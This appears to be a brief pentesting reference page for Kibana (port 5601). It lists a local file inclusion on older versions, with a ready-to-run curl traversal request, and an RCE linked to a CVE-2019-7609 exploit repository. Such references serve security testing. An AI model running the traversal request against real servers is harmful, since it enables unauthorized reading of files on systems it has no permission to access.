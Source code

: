 ```yaml
---
title: Kibana Pentesting
desc: A proprietary data visualization dashboard software for Elasticsearch. Default port is 5601.
tags: [5601, Kibana]
alts: []
render_with_liquid: false
---
```


## Vulnerabilities

1. **Local File Inclusion (LFI)**

    **Version < 6.4.3 & 5.6.13**

    ```sh
    curl http://<target-ip>:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
    ```

2. **Remote Code Execution (RCE)**

    **Version < 6.6.0**

    Reference: [https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609){:target="_blank"}
